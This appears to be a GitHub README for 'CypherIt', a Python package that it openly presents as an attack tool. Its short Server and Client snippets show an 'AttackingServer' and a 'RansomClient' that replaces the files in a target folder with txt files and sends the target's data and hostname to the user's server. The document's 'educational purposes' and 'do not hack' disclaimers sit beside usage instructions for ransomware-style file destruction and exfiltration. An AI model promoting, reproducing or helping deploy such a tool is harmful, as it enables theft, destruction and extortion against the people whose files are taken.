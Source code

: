 CypherIt
========

CypherIt is an intelligent tool which renames all the files to a txt file in a binder.You can write what ever you want.

All the files of the target will be saved in your directory and you can do what ever you want.

Inspired by:
==========
ALI ZAKERI

HOW DOES CYPHERIT WORK
======================

If you are familiar to my style of packages. You already know how simple it is

First of all create a server:

Server
------
````python
import CyphterIt as ci

ip, port = "127.0.0.1", 1234

server = ci.AttackingServer(ip, port)
server.start()
````

Client
------
````python
import CyphterIt as ci

ip, port, path, text = "127.0.0.1", 1234, r"C:\\test", "the one and only"
#You have to specify the path because this was just build for educational purposes. So please do not use it for bad thinks

data = ci.RansomClient(ip, port, path, text)
data.start()
````

You always have to run the server first and then the client.

The hostname of the target will be sent to your server

A Directory with the hostname of the target will be created.

All the data of target will be stored in that directory

Additional
=========
* PLEASE DO NOT HACK SOMEONE FOREIGN